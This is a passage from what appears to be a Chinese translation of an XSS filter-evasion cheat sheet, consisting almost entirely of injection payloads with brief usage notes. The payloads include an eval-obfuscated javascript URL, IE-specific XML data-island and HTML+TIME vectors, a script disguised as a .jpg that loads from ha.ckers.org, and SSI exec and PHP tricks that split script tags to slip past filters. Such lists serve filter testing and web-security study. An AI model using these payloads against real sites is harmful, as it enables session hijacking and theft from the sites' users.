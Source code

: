 ```
a="get";
b="URL(\"";
c="javascript:";
d="alert('XSS');\")";
eval(a+b+c+d); 
```

### CDATA 混淆的 XML 数据岛

这个 xss 向量尽可以在 IE 和使用了 ie 渲染引擎的 Netscape 8.1 下工作。它是 Sec Consult 在审计雅虎时发现。

```
<XML SRC="xsstest.xml" ID=I></XML>
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN> 
```

### 使用 XML 数据岛生成含有 javascript 代码的当前域 xml 文件

它是相同的同上面仅仅代替 XML 文件为当前域文件。你可以看到结果在下面。

### HTML+TIME 在 XML 中

它展示的 Grey Magic 是怎样攻击 Hotmail 和 Yahoo!的。它是仅仅可以工作在 ie 和使用了 ie 渲染引擎的 Netscape 8.1。并且这段代码需要放在 html 域 body 标签之间。

```
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML> 
```

### 简单的修改字符去绕过过滤器对 ".js"的过滤

你可以重命名你的 javascript 文件为一个图片作为 xss 向量

```
<SCRIPT SRC="http://ha.ckers.org/xss.jpg"></SCRIPT> 
```

### SSI (服务器端包含)

这需要 SSI 被安装在服务器端去使用这个 xss 向量。但可能我并不需要提及这点，因为如果你可以运行命令在服务器端，那么毫无异味会有更加严重的问题存在。

```
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://ha.ckers.org/xss.js></SCRIPT>'"--> 
```

### PHP

需要 php 被安装在服务器端去使用这个 xss 向量。同样的，如果你可以运行恩任何远程脚本，那么将会有更加严重的问题。

```
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?> 
```
